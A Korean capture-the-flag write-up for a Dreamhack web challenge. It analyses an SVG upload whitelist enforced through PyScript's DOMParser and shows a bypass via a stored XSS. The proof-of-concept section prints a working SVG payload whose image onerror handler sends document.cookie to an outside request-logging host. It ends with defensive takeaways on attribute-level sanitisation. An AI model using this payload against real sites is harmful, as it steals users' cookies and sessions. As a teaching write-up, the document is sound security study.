

## 1. Overview
* **Target Challenge:** PTML
* **Category:** Web Hacking
* **Key Concept:** PyScript DOMParser Bypass / Stored XSS / Cookie Exfiltration

---

## 2. Vulnerability Analysis

### Endpoint
* `/`
* `/upload`
* `/uploads/<filename>`
* `/static/main.py`


### Source Code Analysis
서비스 동작 및 코드 분석

## [app.py]
```
@app.route('/upload', methods=['POST'])
def upload_file():
    ...
    # 파일 업로드 시 UUID를 결합하여 저장 후 Selenium Bot 실행
    unique_filename = f"{unique_id}_{filename}"
    file_path = os.path.join(app.config['UPLOAD_FOLDER'], unique_filename)
    file.save(file_path)
    read_file(unique_filename)
    return redirect(url_for('index', file=f'uploads/{unique_filename}'))

def read_file(filename):
    # Selenium 봇에 FLAG 쿠키 주입 후 접속
    cookie = {"name": "flag", "value": FLAG}
    cookie.update({"domain": "127.0.0.1"})
    ...
    driver.get(f"http://127.0.0.1:8000/?file=uploads/{filename}")
    WebDriverWait(driver, 10).until(EC.presence_of_element_located((By.TAG_NAME, "svg")

```
## [main.py]
```
def load_svg_from_string(svg_string):
    parser = DOMParser.new()
    # [Point 1] Strict XML 파싱: 문법 오류 시 <parsererror> 태그 생성
    doc = parser.parseFromString(svg_string, "image/svg+xml")

    # 태그 화이트리스트 검사 (<script> 태그 미포함)
    allowed_elements = [
        "svg", "path", "rect", "circle", "ellipse", "line", "polyline", "polygon",
        "text", "tspan", "textPath", "altGlyph", "altGlyphDef", "altGlyphItem",
        "glyphRef", "altGlyph", "animate", "animateColor", "animateMotion",
        "animateTransform", "mpath", "set", "desc", "title", "metadata",
        "defs", "g", "symbol", "use", "image", "switch", "style"
    ]

    elements = doc.getElementsByTagName("*")
    for element in elements:
        if element.tagName not in allowed_elements:
            raise ValueError(f"Disallowed SVG element found: {element.tagName}")

    return doc.documentElement

```

## 3. Proof of Concept (PoC)

<script> 대신 화이트리스트에 포함된 <image> 태그의 onerror 이벤트 핸들러를 활용합니다.

DOMParser가 XML 파싱 에러(<parsererror>)를 내지 않도록 속성 값 내부의 따옴표를 XML 엔티티(&apos;)로 우회 처리합니다.

SvgMover 로직 오류를 방지하기 위해 <path> 태그를 구문에 함께 포함하여 exploit.svg를 작성합니다.
https://tools.dreamhack.games/ 사용

```
<?xml version="1.0" encoding="UTF-8"?>

<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">

  <path d="M 0 0 L 10 10" />

  <image href="x" onerror="location.href=&apos;http://knzgsym.request.dreamhack.games/?flag=&apos;+encodeURIComponent(document.cookie)"/>

</svg> 

```

---

## 4. **Execution & Result**
작성한 exploit.svg 페이로드를 웹 인터페이스를 통해 업로드합니다.

main.py 검증 로직을 통과하고, 동기식으로 실행된 Selenium 봇에 의해 XSS 페이로드가 실행됩니다.

RequestBin(knzgsym.request.dreamhack.games) 수신 로그의 Referer 헤더 쿼리 스트링에서 URL 인코딩된 값 확인:


URL 디코딩 수행 후 최종 FLAG 획득:
flag를 획득 할 수 있었다.



---

## 5. **Takeaways**

* **SVG 태그 기반 이벤트 핸들러 검증 필요**

<script> 태그만 차단하는 화이트리스트 방식은 <image>, <svg> 등 그래픽 요소에 삽입 가능한 onerror, onload와 같은 이벤트 핸들러 속성을 막지 못하므로 속성 수준의 Sanitization(DOMPurify 등)이 필수적입니다.

* **SVG 태그 기반 이벤트 핸들러 검증 필요**

DOMParser 파싱 결과 생성되는 <parsererror> 태그에 대한 예외 처리가 미흡할 경우 파서 자체의 동작 흐름이 오염될 수 있으므로 사전에 문법 검증 예외 처리를 명확히 분리해야 합니다.